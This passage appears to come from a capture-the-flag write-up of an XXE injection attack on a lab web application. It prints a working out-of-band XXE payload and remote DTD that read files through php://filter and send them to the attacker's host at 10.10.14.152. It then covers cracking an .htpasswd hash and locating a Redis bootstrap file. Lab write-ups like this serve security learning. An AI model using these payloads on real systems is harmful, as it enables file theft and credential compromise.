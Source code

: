 ### XXE Injection for File read

We can try XXE Injection, however regular payloads do not work. We can bypass this by creating a DTD file and make the website send a GET request to process that file.

After some trial and error, I found that using the `php://filter/` method worked through base64 encoding the stuff. I was able to read some of the files.

```xml
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource='>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.14.152/?file=%file;'>">
%eval;
%exfiltrate;
```

<figure><img src="../../../.gitbook/assets/image (35) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Payload used:

```http
manage_api=<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.152/test.dtd"> %xxe;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>password123</password></user></root>
```

From here, I wanted to read the `/var/www/developers/.htpasswd` file since we found a password on it earlier.

<figure><img src="../../../.gitbook/assets/image (42) (1) (2).png" alt=""><figcaption></figcaption></figure>

Using `john`, we could crack the hash to give `r0cket` as the password. We were confronted with another login page.

<figure><img src="../../../.gitbook/assets/image (349) (1).png" alt=""><figcaption></figcaption></figure>

This time, we need to find credentials elsewhere. That `redis` instance is likely where this password is hidden. We cannot read the `/etc/redis` file without root permissions, so there likely is another file located somewhere.

I tried checking for `config.php` files but was unable to find any. I knew that we had to go 'up' one directory because the current directory contained nothing, Some googling about Redis led me to the `bootstrp.php` file, which worked. It was located at `../bootstrp.php`.

<figure><img src="../../../.gitbook/assets/image (12) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Redis
